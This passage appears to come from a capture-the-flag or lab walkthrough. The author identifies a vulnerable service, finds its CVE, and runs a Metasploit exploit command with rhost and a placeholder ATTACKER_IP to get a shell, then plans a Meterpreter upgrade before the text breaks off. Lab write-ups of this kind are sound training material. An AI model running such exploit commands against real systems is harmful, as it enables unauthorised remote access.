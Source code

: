 it appears to be vulnerable

![vuln](/assets/AOCD9/vuln.png)

#### Question 2
That confirms the answer to question 2

![q2](/assets/AOCD9/q2.png)

#### Question 3
You can look up the info of the vulnerabiliy to get the CVE number for question 3

![q3](/assets/AOCD9/q3.png)

now lets run this with the info we have 

```console
run rhost=10.10.185.9 lhost=ATTACKER_IP HttpClientTimeout=20
```
we have a shell

![access](/assets/AOCD9/access.png)

it is not a very strong shell so lets back ground it and try to upgrade it to a Meterpreter shell

here are the commands to do so 

#### Question 4
